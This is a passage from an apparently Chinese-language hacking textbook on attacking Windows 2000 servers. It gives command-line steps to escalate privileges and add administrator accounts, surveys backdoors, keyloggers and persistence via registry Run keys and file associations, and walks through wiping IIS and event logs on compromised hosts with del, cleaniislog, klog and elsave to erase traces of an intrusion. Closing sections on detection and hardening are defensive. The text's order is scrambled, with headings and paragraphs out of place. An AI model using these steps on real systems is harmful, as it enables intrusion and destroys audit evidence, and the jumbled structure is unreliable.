Impersonating: SYSTEM
The account: FF-TGGWOVTTYYLNH\Guest
has been added to the Administrators group.
```

如图5，再查看一下 Guest 是否加入了 Administrators 组：


图5

```bash
D:\>net localgroup administrators

别名      administrators
注释      管理员对计算机/域有不受限制的完全访问权

成员
------------------------------
Administrator
Guest

命令成功完成。
```

### 第二个工具：ndde.exe

它是利用 Windows 2000 的网络动态数据交换服务（Network DDE DSDM）漏洞进行提权，这个漏洞可以使普通用户以 LocalSystem 身份执行任意程序，可以借此更改密码、添加用户等，Guests 组用户也可以成功利用该漏洞。不过唯一的缺点是：这个服务缺省没有启动。

它的用法是：

```bash
ndde.exe [-s sharename] <"command line">
```

攻击时我们可以输入这样的命令：

```bash
ndde.exe "net user hacker /add"
ndde.exe "net localgroup administrators hacker /add"
```

这样我们就添加了一个 hacker 的管理员用户。当然 NetDDE 服务开放的情况下才会成功；如果 NetDDE 服务关闭则不可能成功。可以用 `net start netdde` 命令启动服务，但启动服务的权限最低必须是 operator，所以这个程序不是很实用。

### 第三个工具：wmi.exe


图6

它是一个利用 Windows 2000 的 WMI 服务缓冲区溢出漏洞来提升权限的工具，只能在目标系统上运行程序才能利用。可用于简体中文、繁体中文、日文、韩文系统 SP0-3 的 Windows 2000 系统。使用前提是 WMI 服务开放，使用时只要直接运行它就可以了。如果溢出成功的话，会内建一个用户名为 XX、密码为 1a!,9nH 的管理员权限用户。

### 第四个工具：ERunAsX.exe

它利用的是 smss.exe 中 DEBUG 子系统的漏洞，所有普通用户都可以通过该漏洞获得对系统中任意进程或线程句柄的控制，从而可以以 SYSTEM 或管理员权限执行任意命令。

使用方法：假设我们已经获得一台机器上的一个 GUEST 用户（或其他普通用户），现在我们要用这个工具来获得系统最高权限，只要把 ERunAsX.exe 和 ERunAsX.dll 这两个文件复制到目标主机上可访问的目录下，例如 `d:\` 下。以 GUEST 身份运行 `ERunAsX 要执行命令`，如：`ERunAsX cmd.exe`，这时执行的命令是以 SYSTEM 权限运行的。也就是说，在这个 cmd 的 shell 中我们可以执行任何命令，比如添加管理员用户等等，如图7。


图7

别的可利用的提升权限的小程序还有很多，像 ptsec.exe、ISAPIHd.dll 等等，这里就不一一介绍了。这些程序说到底还是利用了 Windows 的各种漏洞，所以要防范这些程序，必须把各种漏洞都打上补丁。不能只打几个重大漏洞的补丁就了事，有些时候问题就出在那些不起眼的小漏洞中。

## Windows 后门与木马

黑客在控制某一主机后，为了更加隐蔽、方便地进行远程操作和控制，或者想利用已经攻陷的主机作为跳板去攻击新的目标，往往会在攻陷的主机上安装各种各样的后门，并会努力使用种种隐藏技术使后门更加隐蔽，不被管理员发现。我们这里来看看 Windows 下最常见的后门以及后门技术，同时提供一些防御及检测这些后门的措施。虽然严格来讲，后门程序和木马程序是有一定区别的，但由于现在 Windows 后门程序日益向木马程序靠拢，许多后门程序就是木马程序，所以我们这里就把后门和木马放在一起讲了。

由于这两个服务是系统自带的，功能稳定、强大，所以黑客在得到系统控制权之后，往往开启这两个服务并做些修改来充当自己的后门。

**Telnet 服务：**Windows 2000 中提供了一个与 Unix 系统很类似的 Telnet 系统服务，其对应的守护进程是 `tlntsvr.exe`。这个 Telnet 服务在缺省配置下是不启动的，但黑客得到了本地系统控制权后，只要简单地使用 `net start telnet` 命令就可启动 Telnet 服务。而如果黑客没有取得本地系统控制权，只要能建立 IPC 连接并有目标主机的 admin 权限账号，那他就能远程启动目标系统上的 Telnet 服务，具体可以借助一个 `opentelnet.exe` 工具，类似的工具还有 `sc.exe` 和 `hetsvc.exe`。不过使用这两个工具比较麻烦，而 `opentelnet` 不但能远程开启 Windows 2000 的 Telnet 服务，而且能改变其 NTLM 验证方式，非常方便，可以一步到位，如图1所示。

## 一、Windows 系统常见后门

由于 Windows 操作系统使用的普及性，Windows 下的后门程序非常之多，以“数以万计”来形容怕也不为过。这么多后门程序当然不可能一一道尽，我们这里只能将它们按各自的特征进行分类并各自介绍其中几个比较典型的程序。

- 系统服务后门
- shell 后门
- 远程控制工具
- 键盘记录工具
- CGI 后门
- DLL 后门

### 1. 系统服务后门

虽然 Windows NT/2000 并不像 Unix 系统那样天生就适合于远程登录，但是微软为了方便用户，在 Windows 2000 中还是提供了 Telnet 和 TermService（终端服务）这两项远程访问服务。


图1

**TermService 终端服务**是 Win2000/XP 自带的一个基于远程桌面协议（RDP）的远程访问服务，如图2所示，默认服务端口是 3389，其速度非常快，性能也很稳定。通过这个服务登录远程主机后，除物理上不能接触外，几乎与本地操作一样。如果黑客以管理员身份通过这个服务登录远程主机后，几乎拥有该机的所有功能，其功能之完备是任何木马后门都望尘莫及的，所以黑客常常拿 Win2000 终端服务作为用来控制的“后门”。

远程启动终端服务的方法有很多，可以用无人值守工具 `sysocmgr.exe` 在命令行下远程安装终端服务：

```bash
c:\>echo [Components] > c:\startTS
c:\>echo TSEnable = on >> c:\startTS
c:\>sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\startTS /q /r
（如果没有 /r 参数的话，服务器不会自动重启。）
```


### 2. Shell 后门

我们已经说了，Windows NT/2000 并不像 Unix 系统那样天生就适合于远程登录。利用 Telnet 和 TermService 服务作为后门虽然简单，但系统服务莫名其妙地被开启了，稍有点经验的管理员就会马上发现，所以用系统服务来做后门只是黑客的初级伎俩。更多的时候黑客会绑定一个可远程登录的 Shell 到系统不用的端口上，作为再次访问后门。常见的比较经典的 Windows shell 后门有：netcat、winshell、wolf、tini 等等。

**Netcat** 是一个非常经典的老牌黑客工具，有网络工具中的“瑞士军刀”的美誉。它有 UNIX 和 WIN 两个版本，我们这里讲的是 WIN 版本。它小巧精致，功能多样，支持 DNS 解析，支持 Telnet 选项应答，端口绑定，内置端口扫描功能等等。绑定端口作为 SHELL 后门只是它的一个功能而已，具体用法可以通过命令 `nc -h` 获取帮助。

**Winshell** 是国人开发的一个著名的 Windows 下的 Shell 后门，它非常优秀，是 Windows 平台上很精巧的 Telnet 服务器软件。可以运行于 Windows 9X/ME/NT/2K/XP 平台下，主程序是一个仅 5K 左右的可执行文件，可完全独立执行而不依赖于任何系统动态链接库，并且以无界面的后台方式运行。支持在 NT 系统中以服务方式运行，其功能也非常强大，支持定制端口、密码保护、多用户登录、NT 服务方式、远程文件下载、信息自定义及独特的反 DDOS 功能等；它还具备密码认证功能、自定义监听端口功能等等。如图3所示就是 Winshell 的配置界面。


**Wolf** 是国内某女黑客开发的一个比较著名的后门程序，它具有扩展 Telnet 服务、集成 FTP 服务器、键盘记录、Sniffer（for win2k only）、端口转发等功能，可反向连接，可通过参数选择随系统启动或作为普通进程启动，它还可以用命令通……过网络使当前 wolf 升级为最新版本，运行后黑客只要 Telnet 到其监听端口就可以使用。正是它具有这么多优点，所以现在网上有不少人在使用它。

其他 shell 后门其实还有很多，有些甚至采用隧道技术来避过防火墙的过滤，如 ACKcmd，我们这里就不能介绍了，还是来看下一类后门吧。

## 3、远程控制工具

远程控制工具大家可能比较陌生，但如果说“冰河”、“BO”大家就不会陌生了吧。其实我们这里要说的远程控制工具，就是这些有 server/client 端的“木马”程序。当然木马的种类有很多种，远程控制工具只是其中的一种而已。远程控制工具的工作原理大家可能也知道了吧，就是让目标主机那端运行其 server 程序，server 程序就会监听某端口等待 client 程序的连接，然后黑客就可以在自己的机子上用 client 程序连接上去从而控制目标主机了。一般远程控制工具功能非常强大，许多都提供图形控制界面，使得黑客能很方便地控制远程主机，而不再需要敲击命令。正是由于其易操作性，现在网上的此类工具可谓是“泛滥成灾”了，而且“经典”之作也有很多，所以我们这里只能点到为止了。

前期比较著名的远程控制工具有：“冰河”、“YAI”、“BO（BackOrifice）”、“SubSeven”、“Netspy”、“Netbus”等等，如图4所示，就是“冰河”的 client 端控制程序。冰河是一个非常优秀的国产远程控制工具，它的功能非常完备，包括远程文件管理、系统管理、网络管理、键盘记录、口令记录、屏幕捕获、屏幕控制、注册表管理、进程管理等等，图中的“冰河”正在截获远程主机的屏幕。

现在近两年出来的比较著名的远程控制工具有：

- “蓝色火焰”
- “广州女生”
- “网络神偷”
- “黑洞”
- “灰鸽子”
- “广外男生”

这几个远程控制各有特色。“蓝色火焰”脱离了远程控制工具传统的 server/client 模式，它的 client 程序可以是任何 Telnet 程序、FTP 程序和 HTTP 浏览器。“广外女生”则因为是第一个可以杀掉杀毒软件和防火墙软件进程的木马而名声大震，其控制界面如图5所示。而“网络神偷”据称是第一个“反弹端口”木马，也就是说运行它的 server 端后，不再是等待 client 来连接，而是主动与 client 连接，这样的好处是可以对付某些有防火墙保护的主机。“灰鸽子”则以功能完备而著称，它几乎集成了以上介绍几种木马的所有功能，此外它还可以用被控制电脑来发动 ICMP 数据包攻击。

图4

图5

## 4、击键记录后门

击键记录后门程序是有着很长历史的后门工具。无论是 UNIX 还是 Windows 平台它都非常流行，它的用途是记录用户的所有击键活动，特别是记录那些口令、密码等敏感信息。记录的信息保存在目标主机上的文件中，不过现在的击键记录后门一般都支持每隔一段时间将这些文件以后台运行的方式用 Email 送到黑客的信箱里，黑客只要每天收收邮件就可以获取用户口令，了解用户的活动。Windows 下的击键记录程序也是多不胜数，甚至比远程控制工具还多，大多数击键记录后门程序都可算是木马程序，最常见的有：Psender、PCghost、keyspy（键盘监听器）、getpassword（密码截取器）、PSWmonitor（密码监听器）等等，我们这里来具体看看国产的几个击键记录后门。

**键盘监听器 keyspy 木马**是一个能记录输入的任何中英文字符的击键记录后门，它还可以发送到有 SMTP 验证的信箱，用户可以自定义发送间隔，如图6所示。配置完毕后生成 EXE 木马程序发给用户，用户的机子一运行这个程序它就可以工作。

## 5、CGI 后门

随着攻击技术的不断发展，后门技术也随之衍变。常规后门已不能满足黑客隐藏踪迹的需求，于是一种更加方便、灵活、隐藏性更好的后门出现了，那就是 CGI 后门。由于这类后门是基于 Web（80 端口）服务的，所以必须在开放 WWW 服务的主机上才能用。它通过 HTTP 请求接受客户端的命令，然后在本地 Shell 中执行，并将结果返回给客户端。

**密码截取器 Getpassword**可以截取密码输入框中的密码（如拨号连接、OICQ、Outlook、IE 中的密码），并将密码明文保存在用户自定义的文件中，缺省为 `c:\password.txt`。如果没有截取到密码，密码文件将不存在。用户还可以进行配置，可以自己定义密码存放路径、系统启动时自动启动、不显示提示信息等，还可以将截取到的密码发送到指定的邮箱，如图7所示。

常见的 CGI 后门有 PHP、ASP、JSP。Windows 下最常见的 CGI 后门无疑是 ASP 后门，这种后门很难屏蔽，也不容易被发现。不过 CGI 后门一般权限都很小，像 Windows 中 IIS 的 ASP 调用程序权限只是 IWAM_Server。如图8所示，就是一个简单的 ASP 后门，它通过 WSH 来调用 cmd Shell，可以列出文件、上传文件、删除文件、执行命令和程序等等。由于隐藏在众多网页文件中，它一般很难被发现。

## 6、DLL 后门

DLL 后门是近年来出现的一种非常隐蔽的木马。我们知道一般的木马程序运行时是以进程的形式存在的，而 DLL 后门却不是。它采用先进的远程线程技术或 DLL 注射方法挂接到一些系统进程空间中运行，使得这种后门不以任何进程的形式存在，进程查看工具也查看不到其进程，防火墙也拦截不了。

目前网上的“广外男生”木马就采用了这种技术，如图9。据说它还是第一个采用这种技术的国产木马，它的服务端运行时不会以进程形式显示，所有网络操作均插入到其他应用程序的进程中完成。

此外最近小榕出品的 BITS（Background Intelligent Transfer Service）也是一个非常不错的 DLL 木马。这个后门根据 svchost 的原理编写，适用于 Windows 2000/XP/2003，安装用 rundll32.exe 加载，在进程管理器中查看不到，提供正向连接和反向连接两种功能，平时没有端口，只有当用特征字符串激活它后才会提供连接。

Windows 下常见的几种类型的后门我们就介绍到这里了。黑客们在编写这些后门时，为了避过管理员的检查，让后门悄悄地不知不觉运行，往往会采用一些隐藏和欺骗技术，下面我们就来了解一些最常见的后门隐藏及欺骗技术。

图9

## 二、常见后门隐藏及欺骗技术

### 1、假冒系统服务

众所周知，Windows 系统中如果程序注册为系统服务后，那它运行时在正常的任务管理器中是看不到其相应进程的了，这就常常被黑客利用。他们编好的后门往往会注册为系统服务，以躲过管理员进程检测法。当然这种方法并不能真正隐藏，管理员只要通过服务管理器就能清楚地看到有哪些服务在运行。当然黑客也会给后门程序取一个欺骗性很强的服务名称以迷惑管理员。注册表的 `HKEY_LOCAL_MACHINE\SYSTEM\CURRENTCONTROLSET\SERVICES` 位置中包含着所有已注册系统服务信息。

### 2、DLL 注射

一般 exe、com 这样的可直接运行程序，运行时是以进程的形式存在的，通过进程查看工具可以查看到其进程。为了躲过这种检测，黑客开始采用更高级的 DLL（动态连接库）注射技术。DLL 本身不是一个可运行程序，它通过其他正常程序的 DLL 加载来实现，具体可以通过 rundll32.exe 来加载执行，也可以利用远程线程技术或 DLL 注射方法挂接到一些系统进程空间中运行，或者用替换正常 DLL 文件等方式来实现这一目的。网上也出现了专门将 EXE 文件插入 DLL 中和将进程插入 DLL 的工具：InjDll.exe 和 SetDll.exe，如图10。此类后门真是让人防不胜防，不过现在的 Windows XP 中开始使用 DLL 数字签名技术以防止此类 DLL 后门。

图10

图11

### 3、修改系统文件和注册表启动

后门程序要自动运行，所以它们往往会通过改系统文件、注册表文件来达到这一目的。如在 Win9x 启动阶段，加载需要从某些初始化文件中得到，如 win.ini、system.ini，后门程序可以修改来达到自启目的，如在 system.ini 中的“shell=”后面指定项就会自动加载。

```ini
[boot]
shell=Explorer.exe c:\munma.exe
```

而 Win NT/2000 中，启动阶段的加载程序信息全部保存在注册表中，所以后门会修改注册表来自启动。保存自启动程序信息的注册表项有：

- `HKEY_Local_Machine\software\microsoft\windows\CurrentVersion\Run`
- `HKEY_Local_Machine\software\microsoft\windows\CurrentVersion\RunOnce`
- `HKEY_Local_Machine\software\microsoft\windows\CurrentVersion\RunOnceEx`
- ……

例如要让一个 `c:\winnt\system` 下名为 `system32.exe` 的后门程序每次随系统启动而启动，黑客只要修改其相应注册表项就可以了，如图11。

### 4、修改文件关联

修改文件关联也是后门程序用来自我启动的方法之一。像老牌木马“冰河”就会修改 txt 文件类型的打开方式，将其关联到冰河的服务端程序上。也就是说每次打开一个 txt 文件，“冰河”就会跟着运行一次。修改文件关联是通过修改注册表进行的，具体位置在 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 下。

图12

正常情况下，其默认值为 `notepad.exe %1`，而“冰河”会将其改成它的程序。当然不只是 TXT 文件的文件关联会被修改，其他文件如 EXE 的文件关联也常被后门程序修改，其对应注册表位置是：

```
HKEY_CLASSES_ROOT\exefile\shell\open\command
默认值是：""%1" %*"
```

如图12。其他像 com、zip、jpeg、html、inf、ini 文件等等，也一样会被修改文件关联。

#### 三、检测后门的基本措施

### 5、文件捆绑

为了隐藏踪迹、欺骗用户运行后门程序，黑客常会将后门程序捆绑到用户常用且信任的程序上，让用户在不知不觉中就帮黑客运行了后门。

现在网上出现了许多合并工具，不但可以把多个 exe 程序进行合并并任意改变其图标，而且还可以把 exe 程序捆绑到 jpg 压缩图像文件中去，这就具有迷惑性和欺骗性。如图13所示，就是一个常见的 exe 程序合并器。

现在许多杀毒软件都已经把后门程序列入了查杀对象，而且其病毒库不断更新，所以安装一个好的杀毒软件并不断升级是一个不错的办法。但“Windows 后门万万千”，而且每天都有许多新的后门诞生，而且大部分后门只掌握在少数人手里，网上公开流传的只有一部分而已，所以杀毒软件不可能查杀所有后门程序，它能识别的只是一部分，完全依靠杀毒软件是不行的。管理员们还应该学会手工检测后门。

**首先**，可以查看系统的端口开放情况。许多后门为了与客户端保持通信都会在系统中开启和监听某个端口，尤其是一些有名后门程序，它们往往有着特定监听端口，所以管理员可以通过查看系统的端口开放情况来初步检测是否有后门。具体可以手工用 NETSTAT 等命令来检测，也可以借用一些工具来进行查看。如图14，TJEnder.exe 就是一个不错的查看本地主机网络连接和端口开放状况的工具。

Windows 后门的隐藏和欺骗技术也讲完了，我们下面来简单说说对后门程序的防御办法。当然对付后门程序的最好办法是防患于未然——防止一切非授权服务，及时补上系统漏洞，别让后门程序有机会进你的系统。当然事实上这很难做到，谁也不知道哪天后门就溜进了你的系统，所以你一旦发现系统运行不正常了，就应该马上采取措施，及早发现和清除藏在系统中的“毒瘤”。

图13

图14

**其次**，还可以查看进程情况。大多数后门程序还是以进程形式存在的，我们可以借助 Windows 任务管理器来查看。或许我们还想具体知道究竟是哪个进程开启了某端口，这就可以使用一个叫 FPORT 的工具，下载地址：http://www.foundstone.com。它可以详细列出进程 PID、进程名称、其打开的监听端口和相应程序所在位置等信息，如图15。

图15

**第三**，可以查看系统文件和注册表文件。在上面介绍后门隐藏和欺骗技术时，我们已经具体介绍了哪些系统文件和注册表项是后门程序经常篡改的，管理员可以重点检查这些文件。当然这样手工检测比较麻烦，我们可以借助一些工具来实时监控注册表。

**第四**，对于 DLL 后门比较麻烦，我们建议用一个叫 Listdlls 的程序来检测，下载地址：http://www.sysinternals.com。通过它可以查看某个程序运行时究竟加载了哪些 DLL，会详细列出其 DLL 清单和所在位置，如图16。但是 DLL 文件有许多，即使有了清单，要判断是否存在 DLL 后门还是要靠管理员经验。

图16

最后，我们还可以使用一些专门的后门程序检测和清除工具来帮助我们，像“The Cleaner”，它是一个专门查杀木马的工具，目前已经可以查杀 4000 多种已知木马。还有像“trojanremover、Iparmor”等，它们不但可以查杀多种后门，还可以检测文件关联及系统文件里的后门程序痕迹，进行实时监控网络状况等等，也是管理员们检测后门的好帮手。

Windows 平台下的后门之多、技术之复杂远出乎预料，区区几千字实在无法详细介绍，以上只是挑了些比较常见的简单作了些概述而已。

## 第五节 Windows 系统日志的清理

日志文件是微软 Windows 系列操作系统中的一个比较特殊的文件，它在安全方面具有无可替代的作用。它每天为我们忠实地记录着系统所发生的一切。利用系统日志文件，可以使系统管理员快速对潜在的系统入侵作出判断和追踪。同样，黑客对日志文件也很感兴趣，清除日志是黑客完成入侵后必须做的一项工作，因为黑客们的各种入侵和破坏活动都很可能被系统日志所记录下来，所以黑客们想要隐藏自己的入侵踪迹，就必须对日志进行清除或修改。当然，黑客们只有当直接或通过提升权限获得服务器的系统管理员权限之后，才可以随意修改系统上的文件，普通用户权限是无法修改日志的。下面让我们来仔细了解一下 Windows 日志系统的具体情况及清除方法。

这些日志文件可以通过“控制面板”——“事件查看器”来查看。

Windows 2000 的日志系统基于 Windows NT 日志系统又有所改进，日志文件的类型比较多，通常有系统日志、应用程序日志、安全日志、DNS 服务器日志、FTP 日志、WWW 日志等等，可能会根据服务器所开启服务不同而略有变化。

**系统日志：**跟踪各种各样的系统事件，记录由系统组件产生的事件。例如，在启动过程加载驱动程序错误或其他系统组件失败，都会记录在系统日志中。

**应用程序日志：**记录由应用程序或系统程序产生的事件，比如应用程序产生的装载 DLL（动态链接库）失败的信息将出现在日志中。

**安全日志：**记录登录上网、下网、改变访问权限以及系统启动和关闭等事件，以及与创建、打开或删除文件等资源使用相关联的事件。

**DNS、FTP、WWW 等日志：**则是各个服务登录用户等信息的日志，是 Windows 2000 日志系统新增的日志，只有这些服务开放时才会有日志产生。

## 一、Windows 日志简介

Windows 98 系统是纯粹的个人操作系统，日志系统很薄弱，唯一能算日志文件的是位于系统文件夹中的日志文件 `schedlog.txt`，不过它只是记录了一些根本无用的预先设定任务运行过程。

Windows NT 系统中日志几乎对系统中的每一项事务都要做一定程度上的审计。Windows NT 的日志文件开始分为三类：系统日志、应用程序日志、安全日志。这些日志系统通常放在下面的位置：

```text
%systemroot%\system32\config\sysevent.evt
%systemroot%\system32\config\appevent.evt
%systemroot%\system32\config\secevent.evt
```

Windows 中的日志是以文件形式存在的，这些日志文件有默认存放位置。应用程序日志、安全日志、系统日志、DNS 日志默认位置为：`%systemroot%\system32\config`

```text
安全日志文件：%systemroot%\system32\config\SecEvent.EVT
系统日志文件：%systemroot%\system32\config\SysEvent.EVT
应用程序日志文件：%systemroot%\system32\config\AppEvent.EVT
FTP 日志默认位置：%systemroot%\system32\logfiles\msftpsvc1\（默认每天生成一个日志文件）
WWW 日志默认位置：%systemroot%\system32\logfiles\w3svc1\（默认每天生成一个日志文件）
```

启动 Windows 2000 时，事件日志服务会自动启动，而其中专门记录安全事件的“安全日志”默认状态却是关闭的，我们必须启动它。它是记录可疑事件最主要的日志。打开“本地安全策略—本地策略—审核策略”，如图1。

在右边详细信息窗格中单击要审核的事件，选择审核内容“成功”和“失败”，安全日志开始记录这些要审核的内容了。比如我们打开了账户登录事件审核，那么有人用流光探测对其进行 IPC 弱口令用户探测，就会在安全日志里迅速记下流光探测时所用的用户名、时间等。要注意的是：必须作为管理员或管理组成员登录，才能打开安全日志记录。FTP 和 WWW 日志属于 IIS 日志，它们只有当在 Internet 服务管理器里分别在 WWW 服务和 FTP 服务属性里打上“启用日志记录”，FTP 和 WWW 日志才会启动。

Windows 2000 中可以使用“事件查看器”来查看和管理日志系统，但也同样需要用系统管理员身份进入系统后方可进行操作。如图2，可以在右边记录栏中查看系统日志、应用程序日志、安全日志、DNS 服务器日志。而至于 WWW 服务和 FTP 服务日志，是以 `.log` 普通日志文件形式保存的，默认每天一份，文件名通常为 ex（年份）（月份）（日期）。

例如 ex001023，就是表示 2000 年 10 月 23 日的日志。你可以进入所在文件夹直接读取这些日志。FTP 日志记录对方 IP、登录账号、时间、文件等信息，如图3。

图1

图2

图3

图4

这是一份FTP日志，从中我们可以看到，IP为192.168.0.1的主机在一分钟内对administrator账号进行了几十次尝试登录，明显是一次FTP弱口令探测。而WWW日志记录的是访问时间、对方IP、本地端口、提交请求等内容。如图4，这份WWW日志记录的是一次典型的CGI漏洞探测：在2003年8月9日5点5分，IP为218.0.189.221的主机对本地主机在短短几秒时间里提交了十几条典型的二次解码漏洞扫描请求。

Windows XP/2003的日志文件基本和Win2000差不多。打开事件查看器，可以看到同样有系统日志、安全日志和应用日志三种常见日志文件。只不过从Windows XP开始出现了一个新的日志：Internet连接防火墙（ICF）日志。ICF日志可以分为两类：一类是ICF审核通过的IP数据包，另一类是ICF抛弃的IP数据包。日志一般位于Windows目录之下，文件名是pfirewall.log。文件主体部分记录了每一个成功通过ICF审核或者被ICF抛弃的IP数据包信息，包括源地址、目的地址、端口、时间、协议以及其他一些信息。

当然，如果在大量纷繁复杂的日志中这样一条条查看日志是很麻烦的，必要时可以借助一些安全日志分析器，比如CLA（CyberSafe Log Analyst）等，它们有很强的日志管理功能。它可以使用户不必在令人眼花缭乱的日志中慢慢寻找某条记录，而是通过分类的方式将各种事件整理好，让用户能迅速找到所需条目。由于这里重在日志清除而不是分析，就不具体讲了，下面我们开始讲如何清除日志。

最简单的办法当然是删除这些日志文件了。虽然可能容易引起管理员警觉，但毕竟还是隐藏了自己的痕迹。删除这些文件不是太复杂，但还是有几点要注意。因操作系统不同，日志删除方法也略有变化。

Windows 98下的日志删除，只要在纯DOS下启动计算机，用一些常用的修改或删除命令就可以消除Windows 98日志记录。当重新启动Windows 98后，系统会检查日志文件是否存在，如果发现日志文件不存在，系统将自动重建一个，但原有日志文件将全部被消除。

Windows 2000的日志删除可比Windows 98复杂得多。在删日志前，首先必须取得系统管理员权限，因为安全日志和系统日志必须由系统管理员方可查看，然后才可以删除它们。其次，要弄清日志存放位置。虽然上面介绍了这些日志的默认存放位置，但是管理员可以修改注册表，改变这些日志默认存放位置。应用程序日志、安全日志、系统日志、DNS服务器日志，它们这些LOG文件在注册表中的位置是：

```text
HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Eventlog
```

有的管理员很可能将这些日志重定位。其中Eventlog下面有很多子项，里面可查到以上日志的定位目录。

日志文件通常有某项服务在后台保护。除了系统日志、安全日志、应用程序日志等，它们的服务是Windows 2000的关键进程，而且与注册表文件在一块。当Windows 2000启动后，会启动服务来保护这些文件，所以很难删除。不过FTP日志和WWW日志等日志还是可以轻易删除的。

## 二、手工清除Windows日志

通过上面的介绍，相信大家对Windows系统，特别是Windows 2000的日志已经有了较为明确的了解。下面我们开始介绍如何清除这些日志以保护自己。

```text
cd i:\winnt\system32\logfiles\msftpsvc1\

del i:\winnt\system32\logfiles\msftpsvc1\*
```

继续此操作？(Y/N)[N]: y  
按Y确认后，所有log文件会被全部删除，如图5。WWW日志也一样，只要进入\system32\logfiles\w3svc1\文件夹下，执行`del *`即可。

在命令行下我们很容易把FTP日志、WWW日志清掉了，但真正困难的是安全日志和系统日志。守护这些日志的服务是Event Log，它们的日志文件不能直接删除。我们试着看能不能停掉它：

```bash
net stop eventlog
```

系统提示：“这项服务无法接受请求的‘暂停’或‘停止’操作。”

这说明如果不用第三方工具，在命令行上是不能删除安全日志和系统日志的。所以还是得用别的办法：先与远程主机以管理员账号建立IPC连接，然后打开本地“控制面板”的“管理工具”中的“事件查看器”，在菜单“操作”项里有一个“连接到另一台计算机”的菜单，点击它，输入远程计算机IP，需要等几分钟到十几分钟，然后才能打开对方日志。然后选择远程计算机的系统日志，右键选择属性，在属性里的“清除所有事件日志”按钮，日志很快即可清除完毕，再用同样方法清除安全日志。

这样在IPC连接和事件查看器的“帮助”下，我们终于把系统日志和安全日志也清除了。不过再次提醒：在删除日志过程中，你必须是Administrator才行。

## 三、常用日志清除工具

刚才介绍了手工清除Windows日志的方法，大家可能觉得有点麻烦。如果有第三方日志清除工具帮忙，清除日志工作就会轻松得多。下面我们来看几个常用的日志清除工具。

第一个日志清除工具：CleanIISLog。

CleanIISLog是一个专门清除IIS的WWW和FTP日志记录的工具。与手工删除所有日志文件相比，此工具有许多优点：

- 它可以清除指定IP连接记录而保留其他IP记录，这样既可以清除痕迹又不易被管理员发现。
- 当清除成功后，CleanIISLog会在系统日志中将本身运行记录清除。

它的用法是：

```text
CleanIISLog <LogFile>|<.> <CleanIP>|<.>
```

- `<LogFile>`：指定要处理的日志文件，如果指定为“.”，则处理所有日志文件（注意：处理所有日志文件需要很长时间）。
- `<CleanIP>`：指定要清除的IP记录，如果指定为“.”，则清除所有IP记录（不推荐这样做）。

比如要清除所有IIS log，CleanIISLog只能在本地运行，而且必须具有Administrators权限。

如果想清除192.168.0.1的所有IIS日志，那只要输入：`cleaniislog . 192.168.0.1`。它会自动停止服务，然后在一个个WWW和FTP日志中寻找含有192.168.0.1的记录并删除。

第二个日志清除工具：klog.exe。  
这是一个清除安全日志的程序，它的特点是使用简单。只要运行一下这个程序，命令都不用输入，程序就会自动把“停止服务—删除日志—再启动服务”的过程全部完成，清除所有安全日志，达到彻底清除入侵痕迹的目的。

第三个日志清除工具：elsave.exe。  
这是一个经典的日志清除工具，它不光能清除应用程序日志、系统日志、安全日志三种日志，而且还可以远程连接后删除日志，不用上传到肉鸡上就能执行。用法：

```text
usage: elsave [-s \\server] [-l log] [-F file] [-C]
-s \\server   Server for which you want to save or clear the log.
-l log        Name of log to save or clear.
-F file       Save the log to a file with this name. Must be absolute path to local file on the server for which you want to save the log.
-C            Clear the log.
-q            Write errors to the event log.
```

如果远程使用，先必须与肉鸡以administrator权限账号建立IPC连接：

```text
c:\>net use \\192.168.0.1\ipc$ /user:administrator
The command completed successfully.
```

然后输入以下命令即可：

```text
c:\>elsave -s \\192.168.0.1 -l "application" -C （清除应用程序日志）
c:\>elsave -s \\192.168.0.1 -l "system" -C （清除系统日志）
c:\>elsave -s \\192.168.0.1 -l "security" -C （清除安全日志）
```

至此，Windows日志清除介绍完毕。从漏洞攻防到权限提升、制作后门、安装工具，最后日志清除，Windows系统的入侵基本过程就是这样。大家看了后应有个基本了解，下面还要讲如何加固Windows服务器安全。

### 第六节 安全配置 Win2000 服务器

虽然Windows 2000从问世以来出现了不少漏洞，但其实Windows 2000整体安全性还是比较好的。它含有许多安全功能和选项，如果你能充分合理地配置它们，并及时打上各种漏洞补丁，那么Windows 2000将会是一个很安全的操作系统。下面我们来看看应该怎样安全配置一台Windows 2000服务器。

Win2000在默认安装情况下会安装一些常用组件，但是如果系统默认安装是比较危险的，因为多一个服务就意味着多一份风险。你应该确切知道需要哪些服务，而且仅安装确实需要的服务。像一般WEB服务器需要的最小组件选择是：IIS的Com Files、IIS Snap-In、WWW Server组件，而像“FrontPage 2000服务扩展”“Internet服务管理器”存在许多安全问题，如果没有特殊需要就不要选。

### 一、物理安全

服务器最好安放在专门的隔离机房内，做好机房防尘、防雷、防磁工作；建立健全人员管理制度，确保非管理人员不能随便进入房间接触服务器，键盘和机箱也最好上锁。

在CMOS中禁止从软盘和CD-ROM启动系统，设置CMOS密码，防止有人利用第三方工具通过引导系统绕过原有安全机制。如果你的服务器对安全要求非常高，可以考虑使用可移动软盘和光驱。

### 二、安装注意

安装时尽量使用NTFS格式分区，把服务器所有分区都改成NTFS格式，因为NTFS文件系统要比FAT、FAT32文件系统安全得多。另外，不要只图方便，将硬盘仅仅分为一个逻辑盘，然后所有软件都装在C盘上，这是很不好的。建议最少建立两个分区：一个系统分区，一个应用程序分区。因为像IIS经常有泄漏源码或溢出漏洞，如果把系统和IIS放在同一个驱动器，会导致系统文件泄漏，甚至入侵者远程获取管理员权限。

系统安装完成后，别忘了最重要的一点：安装补丁。补丁安装应该在所有应用程序安装完之后，因为补丁程序往往要替换/修改某些系统文件，如果先安装补丁再安装应用程序，有可能导致补丁不能起到应有效果。而且要注意，补丁安装后并不是一劳永逸，漏洞天天被发现，补丁天天在更新，你应该时常关注补丁信息，及时打好新漏洞补丁。目前Windows 2000较新的补丁是Windows 2000 Service Pack 4，微软网站上安全补丁下载地址：

http://www.microsoft.com/downloads/search.aspx?displaylang=zh-cn&categoryid=7

### 三、账号安全

首先在“计算机管理”的“用户管理”里把Guest账号停用掉，任何时候都不允许Guest账号登录系统。为了保险起见，最好给Guest加一个复杂密码。还应该把系统Administrator账号改名。Windows 2000的Administrator账号不能被停用，这意味着别人可以一遍又一遍地猜解这个账户密码。把Administrator账户改名可以有效防止这一点，尽量把它伪装成普通用户，比如改成：guestone。

